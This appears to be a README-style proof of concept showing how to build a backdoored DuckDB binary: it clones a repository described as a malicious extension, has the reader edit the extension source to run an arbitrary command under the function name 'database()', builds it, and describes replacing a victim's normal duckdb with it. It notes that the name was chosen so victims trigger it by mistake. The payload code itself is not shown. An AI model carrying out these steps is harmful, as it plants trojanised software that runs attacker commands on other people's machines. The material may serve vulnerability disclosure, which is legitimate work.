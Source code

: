# Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Modify file
Modify src/quark_extension.cpp,modify the file content to a custom malicious command,and modify the extension function name
```sh
vim src/quack_extension.cpp
```
<img width="398" alt="企业微信截图_17032369791384" src="https://github.com/Tu0Laj1/database_test/assets/154296962/bd08fc1a-8797-4206-ad5e-15ce1ed9ed35">


### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database' is a function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database();
```
